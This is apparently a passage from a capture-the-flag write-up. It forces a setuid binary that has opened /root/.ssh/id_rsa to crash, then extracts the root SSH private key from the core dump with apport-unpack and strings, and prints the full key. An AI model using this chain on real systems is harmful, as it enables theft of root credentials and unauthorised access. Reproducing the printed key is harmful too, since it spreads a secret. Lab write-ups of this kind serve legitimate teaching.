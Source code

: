 ```shell
/opt/count
/root/.ssh/id_rsa
ctrl+z
kill -SIGSEGV `ps -e | grep -w "count"|awk -F ' ' '{print$1}'`
fg
```

A core dumped has been created:

![](Pasted%20image%2020241223114539.png)

Now, we can use **apport-unpack** and strings to get the root SSH key:

```shell
apport-unpack /var/crash/_opt_count.1000.crash /tmp/crash_unpacked
strings /tmp/crash_unpacked/CoreDump

[redacted]
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
